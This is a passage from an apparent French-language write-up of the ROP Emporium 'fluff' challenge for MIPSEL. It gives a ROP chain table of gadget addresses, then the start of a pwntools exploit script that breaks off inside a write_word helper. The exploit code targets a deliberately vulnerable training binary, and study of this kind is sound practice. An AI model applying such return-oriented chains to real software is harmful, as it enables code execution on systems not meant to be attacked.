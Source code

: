 | 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0xdeadbeef | | junk |
| 0x00411074 | @.bss+4 | pour `s0` 
| 0x747b742d | '-t{t' | pour `t1`
| 0x0040099c | lw $t9, 4($sp) ; sw $s1, ($s0) ; jalr $t9 ; addi $sp, $sp, 8 | Pour `t9` du gadget de chargement
| 0xdeadbeef | | junk |
| ----------| Appel print_file(@.bss)
| 0x004009ac | lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; addi $sp, $sp, 0xc | Charge `a0` et appel @`t9`
| 0xdeadbeef | | junk |
| 0x00400af0 | print_file@plt | pour `t9` 
| 0x00411070 | @.bss | pour `a0` 

## Exploitation

### Script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time


# ROPemporium fluff MIPSEL

# Set up pwntools for the correct architecture
elf = context.binary = ELF('fluff_mipsel')
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

# ret : 296
# read  : 248
gs='''
b *pwnme+296
c
'''

# Gadgets
# 0x00400aac : lw $ra, 0x24($sp) ; lw $s1, 0x20($sp) ; lw $s0, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x28
g_pop_s1s0= 0x00400aac

# 0x0040099c : lw $t9, 4($sp) ; sw $s1, ($s0) ; jalr $t9 ; addi $sp, $sp, 8
g_write_s1s0 = 0x0040099c

g_call_with_a0 = 0x004009ac

def write_word( what, where):
    pl=p32(g_pop_s1s0)    
    pl+=p32(0xdeadbeef)        # junk
    pl+=p32(0xdeadbeef)        # junk
```